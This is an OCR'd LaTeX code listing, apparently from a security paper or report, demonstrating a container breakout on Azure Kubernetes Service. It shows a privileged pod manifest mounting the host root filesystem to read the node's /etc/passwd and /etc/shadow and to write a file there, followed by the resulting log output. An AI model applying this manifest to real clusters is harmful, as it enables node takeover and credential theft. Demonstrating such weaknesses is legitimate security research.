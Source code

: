 kubectl logs breakout
\fi
CONTAINER BREAKOUT AKS TEXT DUMP
\iffalse
\begin{lstlisting}[
lukas@Azure:~$ cat container_breakout.yaml
apiVersion: v1
kind: Pod
metadata:
    name: breakout
spec:
    containers:
    - name: breakout
      securityContext:
        privileged: true
      image: alpine
      command: ["/bin/sh"]
      args: ["-c",
                'echo -e "        /etc/passwd of underlying node";
                cat /mnt/rootnode/etc/passwd;
                echo -e "-----------\n        /etc/shadow of underlying node";
                cat /mnt/rootnode/etc/shadow;
                echo -e "-----------\n        root directory of underlying node";
                ls -la /mnt/rootnode/;
                touch /mnt/rootnode/ALL_YOUR_NODES_ARE_BELONG_TO_US;
                echo -e "-----------\n        root directory of underlying node after manipulation through this container";
                ls -la /mnt/rootnode/;
                while true;
                  do sleep 30;
                done;'
        ]
      volumeMounts:
      - name: root-volume
        mountPath: /mnt/rootnode
    volumes:
    - name: root-volume
      hostPath:
        path: /
lukas@Azure:~$ kubectl apply -f container_breakout.yaml
pod/breakout created
lukas@Azure:~$ kubectl logs breakout
        /etc/passwd of underlying node
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false

\end{lstlisting}
